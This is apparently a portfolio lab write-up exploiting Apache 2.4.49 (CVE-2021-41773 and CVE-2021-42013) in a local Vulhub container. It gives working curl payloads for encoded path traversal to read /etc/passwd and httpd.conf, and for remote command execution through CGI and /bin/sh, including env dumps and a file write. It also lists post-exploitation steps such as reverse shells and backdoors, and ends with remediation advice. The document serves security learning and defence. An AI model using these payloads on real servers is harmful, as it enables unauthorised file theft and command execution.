

# Apache HTTP Server Path Traversal & RCE (CVE-2021-41773 / CVE-2021-42013)


> Full path traversal and unauthenticated remote code execution achieved against Apache HTTP
> Server 2.4.49, by abusing a path normalization bug to escape the document root — using nothing
> but a single `curl` command. Two CVEs demonstrated in one lab: the original bypass (41773) and
> the double-encoding variant (42013), plus escalation to arbitrary command execution via CGI.

---

## Overview

| | |
|---|---|
| **CVE** | [CVE-2021-41773](https://httpd.apache.org/security/vulnerabilities_24.html) + [CVE-2021-42013](https://httpd.apache.org/security/vulnerabilities_24.html) |
| **Target** | Apache HTTP Server 2.4.49 (Unix) |
| **Environment** | Vulhub `vulhub-apache-1`, isolated Docker container |
| **Vulnerability class** | Path traversal → File disclosure + RCE via CGI |
| **CVSS v3.1** | 7.5 (path traversal) / 9.8 (RCE with CGI enabled) |
| **Preconditions** | Apache 2.4.49, `mod_cgi` enabled (for RCE stage only) |
| **Outcome** | `/etc/passwd` disclosed + arbitrary command execution as `daemon` |

---

## Table of Contents
- [Attack Chain Summary](#attack-chain-summary)
- [Step 1 — Target Version Confirmation](#step-1--target-version-confirmation)
- [Step 2 — Path Traversal: File Disclosure](#step-2--path-traversal-file-disclosure)
- [Step 3 — Double-Encoding Bypass (CVE-2021-42013)](#step-3--double-encoding-bypass-cve-2021-42013)
- [Step 4 — RCE via CGI](#step-4--rce-via-cgi)
- [Step 5 — Write Capability Confirmed](#step-5--write-capability-confirmed)
- [Bonus — Environment Variable Leak](#bonus--environment-variable-leak)
- [Full Command Reference](#full-command-reference)
- [Impact](#impact)
- [Remediation](#remediation)

---

## Attack Chain Summary

```
Attacker                          Apache 2.4.49 (daemon user)
   |                                        |
   |--- GET /icons/.%2e/%2e%2e/etc/passwd ->|
   |         URL-encoded dot-dot traversal  |
   |                                        |--- Path normalization bug:
   |                                        |    %2e decoded AFTER traversal
   |                                        |    check — escapes DocumentRoot
   |                                        |
   |<--- HTTP 200 + /etc/passwd contents ---|
   |                                        |
   |--- POST /cgi-bin/.%2e/../../../bin/sh->|
   |    data: "echo;id"                     |
   |                                        |--- CGI handler executes /bin/sh
   |                                        |    with attacker-controlled stdin
   |                                        |
   |<--- uid=1(daemon) gid=1(daemon) -------|
```

---

## Step 1 — Target Version Confirmation

Confirmed Apache 2.4.49 is running — the exact version affected by CVE-2021-41773. Apache
fixed this in 2.4.51 (2.4.50 was an insufficient partial fix, itself bypassed by CVE-2021-42013).

```bash
curl -s -I http://localhost:8080/ | grep Server
```



**What this shows:** The `Server:` response header reveals `Apache/2.4.49 (Unix)` — confirming
we're running the exact vulnerable version. In a real engagement, this header is often visible
to any unauthenticated request and is the first thing an attacker checks to triage whether the
target warrants further attention.

---

## Step 2 — Path Traversal: File Disclosure

The core bug in CVE-2021-41773 is a change made to Apache's path normalization logic in 2.4.49.
Normally, Apache blocks `..` (dot-dot) sequences to prevent traversal outside the document root.
However, URL-encoding the dots as `%2e` bypasses this check — Apache validates the path *before*
decoding `%2e` to `.`, so the traversal isn't recognized until it's too late.

```bash
curl -v --path-as-is http://localhost:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```


**Breaking down the payload:**
- `/icons/` — a real directory that exists on the server (required — Apache must find a valid
  starting directory for the traversal to work; an invalid path returns 404 before the traversal
  logic runs)
- `.%2e/` — URL-encoded `../` — steps one directory up
- `%2e%2e/` — another `../` — steps up again
- Four levels of `../` get us from `/icons/` → `/var/www/html/` → `/var/www/` → `/var/` → `/`
- `/etc/passwd` — the target file, now reachable from the filesystem root

**`--path-as-is`** is required to prevent curl from normalizing `/.%2e/` back to `/` on the
client side before the request is even sent — same class of tooling-awareness issue as the `-g`
flag needed for Log4Shell's `${jndi:...}` payload.

**Result:** Full `/etc/passwd` contents returned with `HTTP 200 OK`.

---

## Step 3 — Double-Encoding Bypass (CVE-2021-42013)

Apache 2.4.50 attempted to patch CVE-2021-41773 but introduced an incomplete fix. A second
researcher discovered that **double-encoding** the percent sign itself (`%` → `%%` or `%25`)
bypassed the new check — Apache 2.4.50's validator decoded one layer of encoding but missed
the second, allowing the same traversal to succeed again. This became CVE-2021-42013.

Interestingly, this double-encoding technique also works against unpatched 2.4.49 (since it
never had the partial check either), which is confirmed here:

```bash
curl -v --path-as-is 'http://localhost:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd'
```


**Breaking down `%%32%65`:**
- `%32` is the URL encoding for the ASCII character `2`
- `%65` is the URL encoding for the ASCII character `e`
- So `%32%65` decodes to `2e` — and `%` + `2e` = `%2e` = `.`
- Apache's 2.4.50 patch checked for literal `%2e` but missed the double-encoded form `%%32%65`

**This demonstrates an important principle:** patching a single bypass technique without fixing
the underlying normalization logic always risks leaving alternative encodings exploitable.

---

## Step 4 — RCE via CGI

When `mod_cgi` or `mod_cgid` is enabled (which it is in this Vulhub image), the path traversal
can be aimed at the system shell itself (`/bin/sh`) rather than a static file. Apache's CGI
handler treats the request body as stdin for the script — meaning anything posted gets executed
as shell commands.

```bash
curl -v --data "echo;id" 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```


**Why `echo;` before `id`?** CGI responses require a blank line after the HTTP headers before
the body content. The `echo` outputs a newline, satisfying that requirement — without it, Apache
returns a malformed CGI response and the output gets dropped. This is a common gotcha when
manually exploiting CGI-based RCE without a dedicated exploit script.

**Result:** `uid=1(daemon) gid=1(daemon) groups=1(daemon)` — Apache drops privileges to the
`daemon` user intentionally (a deliberate security measure). This is not a limitation of the
exploit — it's Apache running as a lower-privileged user by design. In a real engagement,
post-exploitation from `daemon` typically involves reading application config files, environment
variables (often containing database credentials or API keys), and looking for SUID binaries
or misconfigured sudo rules for further privilege escalation.

---

## Step 5 — Write Capability Confirmed

Confirmed that the `daemon` user has write access to `/tmp`, enabling file drops, staging
further payloads, or creating persistence mechanisms:

```bash
curl -s --data "echo;echo 'pwned' > /tmp/apache_rce && cat /tmp/apache_rce" \
  'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```


**Real-world significance:** Write access to `/tmp` (or anywhere under the web root) enables:
- Dropping a reverse shell script and executing it
- Staging a compiled privilege escalation binary
- Writing a persistent backdoor CGI script to a web-accessible path
- Exfiltrating data by writing to a web-accessible path and fetching it over HTTP

---

## Bonus — Environment Variable Leak

```bash
curl -s --data "echo;env" 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

**Key values exposed:**
```
REMOTE_ADDR=172.18.0.1          # Docker bridge gateway — attacker's visible IP
SERVER_ADDR=172.18.0.2          # Container's internal IP
SCRIPT_FILENAME=/bin/sh         # How the path traversal resolved to a shell
SERVER_SOFTWARE=Apache/2.4.49   # Version confirmed again from inside the process
PATH=/usr/local/apache2/bin:... # Executables available to the attacker
REQUEST_URI=/cgi-bin/.%2e/...   # The raw traversal path as Apache received it
```

In a real engagement, this kind of environment dump is often more valuable than the initial
`id` output — application environment variables frequently contain database connection strings,
API keys, cloud provider credentials, and internal service endpoints.

---

## Full Command Reference

```bash
# --- Target version ---
curl -s -I http://localhost:8080/ | grep Server

# --- Container isolation check ---
docker inspect vulhub-apache-1 --format '{{json .Mounts}}'

# --- CVE-2021-41773: Path traversal / file disclosure ---
curl -v --path-as-is http://localhost:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

# --- CVE-2021-42013: Double-encoding bypass ---
curl -v --path-as-is 'http://localhost:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd'

# --- CVE-2021-41773 + CGI: Remote code execution ---
curl -v --data "echo;id" 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'

# --- Write capability ---
curl -s --data "echo;echo 'pwned' > /tmp/apache_rce && cat /tmp/apache_rce" \
  'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'

# --- Environment variable leak ---
curl -s --data "echo;env" 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'

# --- Apache config exfiltration ---
curl -v --path-as-is \
  'http://localhost:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/usr/local/apache2/conf/httpd.conf'
```

---

## Impact

| Stage | Technique | Result |
|---|---|---|
| File disclosure | URL-encoded path traversal | `/etc/passwd` + full Apache config read |
| Patch bypass | Double-encoding (`%%32%65`) | CVE-2021-42013 — same file, different encoding |
| RCE | CGI + path traversal → `/bin/sh` | `uid=1(daemon)` — arbitrary command execution |
| Write access | File write to `/tmp` | Confirmed — enables further payload staging |
| Info leak | Environment variable dump | Internal IPs, paths, server config exposed |

Both CVEs affected a massive number of Apache deployments simultaneously since 2.4.49 shipped
as the default in many Linux distribution package repositories in late 2021. The vulnerability
was actively exploited in the wild within **hours** of public disclosure — one of the fastest
mass-exploitation timelines ever recorded for a web server vulnerability.

---

## Remediation

- **Upgrade to Apache HTTP Server 2.4.51 or later** — 2.4.50 was an insufficient partial fix
  (itself bypassed by CVE-2021-42013); only 2.4.51 fully resolved both issues.
- **Disable `mod_cgi` / `mod_cgid`** if CGI is not required — even with path traversal, RCE
  requires CGI to be enabled. Removing this attack surface eliminates the RCE risk even if the
  traversal is present.
- **Verify `Require all denied`** is set for directories outside the document root — Apache's
  default configuration in some versions did not block access to non-document-root paths, which
  is a prerequisite for this traversal succeeding.
- **Suppress the `Server:` header** to prevent trivial version fingerprinting:
  ```apache
  ServerTokens Prod
  ServerSignature Off
  ```
- **Deploy a WAF rule** to block requests containing `%2e`, `%%32%65`, or other encoded
  dot-dot sequences in URL paths.
- **Run Apache as a dedicated low-privilege user** (already done here — `daemon`) and ensure
  that user has no write access to web-accessible directories or sensitive config files.

---

**Disclaimer:** This exercise was performed entirely against a self-hosted, deliberately
vulnerable Docker container (Vulhub) on an isolated local network, for educational and portfolio
purposes. No production systems, third-party infrastructure, or external targets were involved.
